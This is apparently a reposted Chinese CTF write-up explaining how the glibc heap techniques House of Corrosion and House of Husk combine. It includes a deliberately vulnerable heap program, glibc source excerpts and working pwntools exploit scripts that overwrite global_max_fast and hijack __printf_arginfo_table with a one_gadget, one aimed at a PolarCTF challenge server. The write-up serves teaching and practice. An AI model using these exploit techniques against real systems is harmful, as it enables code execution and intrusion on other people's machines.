






# House Of Corrosion与House Of Husk的交叉利用-先知社区

> **来源**: https://xz.aliyun.com/news/16111  
> **文章ID**: 16111

---

# House Of Corrosion 与 House Of Husk的交叉利用

## House Of Corrosion

此类攻击方式主要是通过攻击main\_arena结构体中的fastbinY数组来实现利用的

```
pwndbg> p main_arena
$1 = {
  mutex = 0, 
  flags = 0, 
  have_fastchunks = 0, 
  fastbinsY = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}, 
  top = 0x0, 
  last_remainder = 0x0, 
  bins = {0x0 <repeats 254 times>}, 
  binmap = {0, 0, 0, 0}, 
  next = 0x7ffff7dcdc40 <main_arena>, 
  next_free = 0x0, 
  attached_threads = 1, 
  system_mem = 0, 
  max_system_mem = 0
}
```

fastbinY里面的内容是基于&main\_arena.fastbinsY的值进行偏移的，基于索引并利用数组溢出便可以写到main\_arena下方的位置

比如我们要写到target处，那么提前申请的chunk的size计算方式为：

```
size=(target_addr-top)*2-0x10
```



当我们在fastbin中有一个大小大于上限也就是0xb0的chunk时，就会产生数组越界

从而实现一些利用，

而为了使能够让大小大于上限的chunk进入fastbin中，我们通常是对global\_max\_fast进行攻击，一般有如下方式

1. **unsorted bin attack**把main\_arena附近的内容写进去
2. **large\_bin\_attack**写一个堆地址进去
3. 或者是其他的一些攻击方式，不多赘述

### House Of Corrosion攻击流程

main\_arena附近的区域最熟悉的莫过于vtable指针了

下面我们从一道2.27版本的例题来看看攻击流程

```
#include<stdio.h> 
#include <unistd.h> 
#define num 80
void *chunk_list[num];
int chunk_size[num];

void init()
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}

void menu()
{
    puts("1.add");
    puts("2.edit");
    puts("3.show");
    puts("4.delete");
    puts("5.exit");
    puts("Your choice:");
}


int add()
{
    int index,size;
    puts("index:");
    scanf("%d",&index);
    puts("Size:");
    scanf("%d",&size);
    chunk_list[index] = malloc(size);
    chunk_size[index] = size;
}

int edit()
{
    int size;
    int index;
    puts("index:");
    scanf("%d",&index);
    puts("size:");
    scanf("%d",&size);
    puts("context: ");
    read(0,chunk_list[index],size);
}

int delete()
{
    int index;
    puts("index:");
    scanf("%d",&index);
    free(chunk_list[index]);
}

int show()
{
    int index;
    puts("index:");
    scanf("%d",&index);
    puts("context: ");
    puts(chunk_list[index]);
}


int main()
{
    int choice;
    init();
    while(1){
        menu();
        scanf("%d",&choice);
        if(choice==5){
            exit(0);
        }
        else if(choice==1){
            add();
        }
        else if(choice==2){
            delete();
        }       
        else if(choice==3){
            edit();
        }       
        else if(choice==4){
            show();
        }


    }
}

```

主要是用于调试，所以存在uaf和堆溢出漏洞

### SCRIPT:

```
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
fn='./heap_debug'
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
eir = 0
if eir == 1:
    p=remote("",)
elif eir == 0:
    p=process(fn)
elf=ELF(fn)

def dbg():
    gdb.attach(p)
    pause()


sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ita = lambda : p.interactive()
l64 = lambda : u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
ll64 = lambda : u64(p.recv(6).ljust(8,b'\x00'))
pt = lambda s : print("leak----->",hex(s))

def menu(choice):
    sla("Your choice:\n",str(choice))
def add(index,size):
    menu(1)
    sla("index:\n",str(index))
    sla("Size:\n",str(size))
def dele(index):
    menu(2)
    sla("index:\n",str(index))

def edit(index,content):
    menu(3)
    sla("index:\n",str(index))
    sla("size:\n",str(0x1000))
    sa("context: \n",content)

def show(index):
    menu(4)
    sla("index:\n",str(index))


#distance main_arena.fastbinsY _IO_list_all =0xa10

add(0,0x500)
add(1,0xa10*2+0x20-0x10)
add(2,0x10)
dele(0)
show(0)
leak=l64()
libc_base=leak-0x3ebca0
max_fast=libc_base+0x3ed940
edit(0,p64(leak)+p64(max_fast-0x10))

add(0,0x500)
dele(1)
pl=b'aaaa'
edit(1,pl)
dbg()
ita()

```

我们来分析一下这段脚本

为了进行house of corrosion攻击，我们需要先分配一个大小合适的chunk，而我们想要覆盖的地方也就是\_IO\_list\_all与main\_arena.fastbinY的距离是0xa10,所以我们分配的chunk大小是0xa10\*2-0x10

泄露完libc之后我们利用unsorted bin attack来修改global max fast，从而把我们申请的大chunk给放进fastbin

然后我们把申请的大chunk给释放掉，就能把这个chunk的地址写到\_IO\_list\_all中





而\_IO\_list\_all结构体也被改成了对应的chunk内容，flags字段对应prev size字段，后面继续延续即可

## House Of Husk

2.23版本至今都可使用

house of Husk主要针对的是printf函数以及其内部调用的函数指针：

1. \_printf\_arginfo\_table
2. \_printf\_functions\_table

但由于\_printf\_functions\_table所需要控制的内容更多，我们更多的是去控制\_printf\_arginfo\_table，因为只需要控制一个内容即可，而printf\_functions\_table需要控制两个内容，主要是劫持\_\_printf\_arginfo\_table[spec]为backdoor或者是onegagdget地址即可。

### 调用过程

```
printf --> vprintf --> do_positional --> printf_positional --> __parse_one_specmb
```

来看一下源码

#### **printf**->vprintf

```
int
__printf (const char *format, ...)
{
  va_list arg;
  int done;

  va_start (arg, format);
  done = vfprintf (stdout, format, arg);
  va_end (arg);

  return done;
}

```

#### vfprintf->do\_positional

```
/* Use the slow path in case any printf handler is registered.  */
  if (__glibc_unlikely (__printf_function_table != NULL
            || __printf_modifier_table != NULL
            || __printf_va_arg_table != NULL))
    goto do_positional;

```

这里调用do\_positional的话有一定要求，就是 \_printf\_function\_table，**printf\_modifier\_table** printf\_va\_arg\_table这三者中至少有一个不为0，而程序初始化时，这三个值都是默认为0的，我们可以gdb调试看看



可以看到，都是为0的，需要想办法来给他们赋不为0的值来绕过保护

#### do\_positional->printf\_positional

```
if (__glibc_unlikely (__printf_function_table != NULL
            || __printf_modifier_table != NULL
            || __printf_va_arg_table != NULL))
    goto do_positional;

......

do_positional:
  if (__glibc_unlikely (workstart != NULL))
    {
      free (workstart);
      workstart = NULL;
    }
  done = printf_positional (s, format, readonly_format, ap, &ap_save,
                done, nspecs_done, lead_str_end, work_buffer,
                save_errno, grouping, thousands_sep);

```

#### printf\_positional->\_\_parse\_one\_specmb

```
printf_positional (_IO_FILE *s, const CHAR_T *format, int readonly_format,
           va_list ap, va_list *ap_savep, int done, int nspecs_done,
           const UCHAR_T *lead_str_end,
           CHAR_T *work_buffer, int save_errno,
           const char *grouping, THOUSANDS_SEP_T thousands_sep)
{
---------------------------------------

      /* Parse the format specifier.  */
#ifdef COMPILE_WPRINTF
      nargs += __parse_one_specwc (f, nargs, &specs[nspecs], &max_ref_arg);
#else
      nargs += __parse_one_specmb (f, nargs, &specs[nspecs], &max_ref_arg);
#endif
    }

  /* Determine the number of arguments the format string consumes.  */
  nargs = MAX (nargs, max_ref_arg);

```

这里会调用\_\_parse\_one\_specmb，这也是我们需要劫持的函数

这里为了介绍一下spec要讲一下register\_printf\_function函数，该函数的作用是允许用户自定义格式化字符并进行注册（注册的意思是说将自定义格式化字符与相应的处理函数相关联），以打印用户自定义数据类型的数据。例如题目出现了%X，其对应spec就是88，下面是\_\_parse\_one\_specmb的源码

```
/* Register FUNC to be called to format SPEC specifiers.  */
int
__register_printf_specifier (int spec, printf_function converter,
                 printf_arginfo_size_function arginfo)
{
  if (spec < 0 || spec > (int) UCHAR_MAX)   #UCHAR_MAX=0xff
    {
      __set_errno (EINVAL);
      return -1;
    }

  int result = 0;
  __libc_lock_lock (lock);

  if (__printf_function_table == NULL)
    {
      __printf_arginfo_table = (printf_arginfo_size_function **)
    calloc (UCHAR_MAX + 1, sizeof (void *) * 2);
      if (__printf_arginfo_table == NULL)
    {
      result = -1;
      goto out;
    }

      __printf_function_table = (printf_function **)
    (__printf_arginfo_table + UCHAR_MAX + 1);
    }

  __printf_function_table[spec] = converter;
  __printf_arginfo_table[spec] = arginfo;

 out:
  __libc_lock_unlock (lock);

  return result;
}

```

## 例题讲解：

题目版本是2.27，题目来源于PolarCTF平台的easy\_str题目

### 程序内容：

```
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+14h] [rbp-5Ch] BYREF
  int v4; // [rsp+18h] [rbp-58h] BYREF
  int v5; // [rsp+1Ch] [rbp-54h]
  int v6[8]; // [rsp+20h] [rbp-50h] BYREF
  void *buf[6]; // [rsp+40h] [rbp-30h]

  buf[5] = (void *)__readfsqword(0x28u);
  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  alarm(0);
  puts("1.malloc");
  puts("2.edit");
  puts("3.dump");
  puts("4.free");
  puts("5.exit");
  v3 = 0;
  v5 = 0;
  v4 = 0;
  while ( 1 )
  {
    while ( 1 )
    {
      puts("choice: ");
      __isoc99_scanf("%d", &v3);
      getchar();
      if ( v3 != 2 )
        break;
      puts("id:");
      __isoc99_scanf("%d", &v4);
      getchar();
      read(0, buf[v4], v6[v4]);
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        puts("id:");
        __isoc99_scanf("%d", &v4);
        getchar();
        puts("output");
        puts((const char *)buf[v4]);
      }
      else
      {
        if ( v3 == 4 )
        {
          puts("id:");
          __isoc99_scanf("%d", &v4);
          getchar();
          free(buf[v4]);
        }
LABEL_17:
        printf("%X", 0LL);
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_17;
      if ( v5 == 5 )
        exit(0);
      puts("size:");
      __isoc99_scanf("%d", &v6[v5]);
      getchar();
      if ( v6[v5] <= 1279 )
        v6[v5] = 1280;
      buf[v5] = malloc(v6[v5]);
      ++v5;
    }
  }
}

```

可以看出，是个堆类的菜单题，而且只能申请5个chunk，chunk的大小必须大于等于0x500

但是程序内出现了%X这样的敏感内容，因为其并不是库函数自带的一个格式化字符，而是用户自己定义注册的

所以我们主要就是攻击这部分内容

### EXP：

```
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
fn='./pwn'
eir = 0
if eir == 1:
    p=remote("1.95.36.136",2108)
elif eir == 0:
    p=process(fn)
elf=ELF(fn)
sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ita = lambda : p.interactive()
l64 = lambda : u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
ll64 = lambda : u64(p.recv(6).ljust(8,b'\x00'))
pt = lambda s : print("leak----->",hex(s))
def dbg():
    gdb.attach(p)
    pause()
def menu(index):
    sla("choice: \n",str(index))
def add(size):
    menu(1)
    sla("size:\n",str(size))
def dele(index):
    menu(4)
    sla("id:\n",str(index))
def edit(index,content):
    menu(2)
    sla("id:\n",str(index))
    sd(content)
def show(index):
    menu(3)
    sla("id:\n",str(index))
ogs=[0x4f29e,0x4f2a5,0x4f302,0x10a2fc]
#main_arena=printf_arginfo_table-0xc30
#main_arena=printf_function_table-0x4af8
#main_arena=free_hook-0x1c98


add(0x560)#0
add(0x4af8*2-0x10)#1
add(0xc30*2-0x10)#2
add(0x500)#3
dele(0)
show(0)

libc_base=l64()-0x70-libc.sym['__malloc_hook']
pt(libc_base)
og=libc_base+ogs[3]
global_max_fast=libc_base+0x3ed940
large_fake_fd=libc_base+0x3ec0e0
printf_arginfo_table=libc_base+0x3ec870
printf_function_table=libc_base+0x3f0738

edit(0,p64(libc_base+0x70+libc.sym['__malloc_hook'])+p64(global_max_fast-0x10))
add(0x560)#4
dele(2)
edit(2,b'abcdefgh'*(0x58-2)+p64(og))
dbg()
dele(1)


p.interactive()

```

### EXP分析：

第一部分主要是用于泄露libc和申请我们进行house of Corrosion所需要的chunk

并且同时申请两个偏移与printf\_arginfo\_table和printf\_function\_table相关的chunk主要是为了绕过保护，给printf\_function\_table赋一个不为0的值

第二部分主要进行的就是unsorted bin attack来攻击global max fast了，让glibc把我们申请的chunk都放到fastbin中

然后就是释放chunk2触发chunk2附近的house of corrosion，使得printf\_arginfo\_table指向我们分配的chunk



同时，由于是从该头部+0x10的地方开始写入，%X的位置是88，所以我们写入b'abcdefgh'\*(88-2)，abcdefgh刚好占8字节乘以86，接下来填充的部分便是\_\_printf\_arginfo\_table[88]，也就是会执行的函数指针处了，我们填上one\_gadget，即可

最后dele(1)来触发chunk1相关的house of corrosion来让printf\_function\_table不为0


